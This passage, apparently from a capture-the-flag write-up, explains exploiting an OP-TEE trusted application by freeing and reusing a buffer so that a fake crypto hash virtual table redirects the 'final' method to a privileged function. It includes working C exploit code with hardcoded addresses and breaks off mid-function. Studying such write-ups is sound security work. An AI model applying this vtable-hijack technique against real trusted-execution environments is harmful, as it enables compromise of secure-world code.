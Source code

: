 But all these virtual tables are read-only, so it means that we need to create our own fake virtual table. 
Also it means that we can use any value of `hasing_algorithm` parameter (let's choose `TEE_ALG_MD5` for example) cause we will use our own virtual table. 

So, during exploitation we'll need to:

1. Place a fake virtual table at known location in kernel memory
2. Write a pointer to it in the target object

We can achieve this by placing fake table in one of the buffers in `syscall_sas` and writing it's address (we know it cause there is no ASLR) in the target object. 
What function's addresses should we write in the fake table?

- We must write `sas_do_smc_healthcheck` in place of the `final` method
- For other methods, the simplest solution is to use addresses from the existing valid table to avoid execution errors before reaching the `final` call

It seems that exploitation shouldn't depend on which of the four tables we choose as base for the fake one, so we'll use `ltc_hash_ops` table.

Putting it all together, we get the following exploit code in the TA:
```c
char flag[0x100];

static void exploit(void)
{
  // Fake crypto_hash_ops
  // All methods are real except final
  // Method final changed to sas_do_smc_healthcheck
  const uint64_t fake_ops[] =
  {
    0xE1DCB70, 0xE1DCB28, 0x0E1AD418, 0xE1DCBA0, 0xE1DCC88
  };

  // Address of index 0 buffer, where fake_ops will be stored
  // Found in debugger - constant without ASLR
  const uint64_t fake_ops_address = 0xe145480;

  // Put fake_ops at fake_ops_address
  sas_alloc(0, 0x1000);
  sas_write(0, fake_ops, sizeof(fake_ops));

  // Allocate and free buffer that will be reused for crypto_hash_ctx
  // Size 0x1B0 found in debugger
  sas_alloc(1, 0x1B0uLL);
  sas_free(1);

  // Allocate crypto_hash_ctx (reuse buffer with index 1)
  TEE_Result res;
  TEE_OperationHandle operation;
  res = TEE_AllocateOperation(&operation, TEE_ALG_MD5, TEE_MODE_DIGEST, 0);
  if (res != TEE_SUCCESS)
  {
    EMSG("AllocateOperation failed res=0x%08x", res);
    return;
  }

  // Overwrite real pointer to ops with the fake one
  sas_write(1, &fake_ops_address, sizeof(fake_ops_address));

  // Trigger method final changed to sas_do_smc_healthcheck
  char msg[]      = "kek";
  size_t hash_len = sizeof(flag);
  res = TEE_DigestDoFinal(operation, msg, sizeof(msg), flag, &hash_len);
  if (res != TEE_SUCCESS)
```